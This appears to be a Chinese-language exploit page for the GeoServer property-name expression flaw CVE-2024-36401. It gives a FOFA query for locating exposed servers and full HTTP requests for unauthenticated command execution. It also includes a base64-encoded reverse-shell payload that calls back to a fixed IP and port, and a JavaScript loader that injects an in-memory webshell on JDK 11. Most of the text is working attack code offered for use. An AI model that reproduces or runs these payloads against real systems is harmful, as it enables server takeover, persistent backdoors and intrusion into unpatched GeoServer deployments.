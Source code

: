 ## GeoServer属性名表达式前台代码执行漏洞(CVE-2024-36401)

GeoServer 是 OpenGIS Web 服务器规范的 J2EE 实现，利用 GeoServer 可以方便的发布地图数据，允许用户对特征数据进行更新、删除、插入操作。

在GeoServer 2.25.1， 2.24.3， 2.23.5版本及以前，未登录的任意用户可以通过构造恶意OGC请求，在默认安装的服务器中执行XPath表达式，进而利用执行Apache Commons Jxpath提供的功能执行任意代码。

## fofa

```
app="GeoServer"
```

## poc

```yaml
GET /geoserver/wfs?service=WFS&version=2.0.0&request=GetPropertyValue&typeNames=sf:archsites&valueReference=exec(java.lang.Runtime.getRuntime(),'touch%20/tmp/success1') HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0

```

```yaml
POST /geoserver/wfs HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 356

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'touch /tmp/success2')</wfs:valueReference>
</wfs:GetPropertyValue>
```

![1](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407030846166.png)

## 反弹shell

```yaml
POST /geoserver/wfs HTTP/1.1
Host: 192.168.18.131:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 356

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'bash -c {echo,c2ggLWkgPiYgL2Rldi90Y3AvMTAuMjEuNjkuMTYvODA4NSAwPiYx}|{base64,-d}|{bash,-i}')
</wfs:valueReference>
</wfs:GetPropertyValue>
```

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407051256200.png)

## jdk11 注入内存马

jdk17 版本注入内存马不成功

环境：https://zenlayer.dl.sourceforge.net/project/geoserver/GeoServer/2.25.1/geoserver-2.25.1-bin.zip?viasf=1

```java
POST /geoserver/wfs HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 356

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>eval(getEngineByName(javax.script.ScriptEngineManager.new(),'js'),'
var str="内存马base64";
var bt;
try {
    bt = java.lang.Class.forName("sun.misc.BASE64Decoder").newInstance().decodeBuffer(str);
} catch (e) {
    bt = java.util.Base64.getDecoder().decode(str);
}
var theUnsafe = java.lang.Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
theUnsafe.setAccessible(true);
unsafe = theUnsafe.get(null);
unsafe.defineAnonymousClass(java.lang.Class.forName("java.lang.Class"), bt, null).newInstance();
')</wfs:valueReference>
</wfs:GetPropertyValue>
```

使用jmg工具生成内存马

![image-20240705150433570](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407051516724.png)



将生成的内存马base64填入到`var str="内存马base64";`

![image-20240705150510773](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407051517580.png)

![image-20240705150611691](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407051517614.png)



## 漏洞来源

- https://github.com/vulhub/vulhub/blob/master/geoserver/CVE-2024-36401/README.zh-cn.md
- https://yzddmr6.com/posts/geoserver-memoryshell/